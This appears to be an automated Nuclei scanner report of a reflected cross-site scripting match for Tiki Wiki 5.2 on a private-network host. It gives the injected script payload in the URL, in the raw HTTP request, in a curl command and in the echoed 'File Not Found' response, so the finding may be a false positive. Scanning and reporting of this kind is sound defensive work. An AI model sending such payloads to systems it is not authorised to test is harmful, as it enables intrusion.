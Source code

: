 ### Tiki Wiki CMS Groupware 5.2 Reflected Cross-site Scripting (tikiwiki-reflected-xss) found on http://192.168.198.179:8080/
---
**Details**: **tikiwiki-reflected-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:21 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Tiki Wiki CMS Groupware 5.2 Reflected Cross-site Scripting |
| Authors | madrobot |
| Tags | xss, tikiwiki |
| Severity | medium |

**Request**
```http
GET /tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 205
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/tiki-edit_wiki_section.php?type="><script>alert(31337)</script></B> was not found.</BODY></HTML>
```


**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36' 'http://192.168.198.179:8080/tiki-edit_wiki_section.php?type=%22%3E%3Cscript%3Ealert(31337)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)